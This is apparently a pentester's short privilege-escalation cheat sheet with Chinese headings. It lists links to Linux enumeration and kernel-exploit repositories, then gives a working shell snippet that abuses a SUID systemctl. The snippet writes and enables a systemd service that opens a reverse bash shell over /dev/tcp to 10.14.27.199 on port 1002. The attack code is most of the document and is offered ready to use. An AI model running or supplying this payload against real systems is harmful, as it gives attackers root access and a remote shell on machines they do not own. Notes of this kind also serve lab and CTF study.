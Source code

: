 # 提权脚本
https://github.com/rebootuser/LinEnum
https://github.com/sleventyeleven/linuxprivchecker
https://github.com/jondonas/linux-exploit-suggester-2
https://github.com/redcode-labs/Bashark
https://github.com/AlessandroZ/BeRoot
https://github.com/SecWiki/linux-kernel-exploits
https://github.com/diego-treitos/linux-smart-enumeration


# suid
## systmctl
eop=$(mktemp).service
echo '[Service]
Type=oneshot
Execstart=/bin/bash -c "bash -i >& /dev/tcp/10.14.27.199/1002 0>&1"
[Install]
WantedBy=multi-user.target' > $eop
/bin/systemctl link $eop
/bin/systemctl enable --now $eop


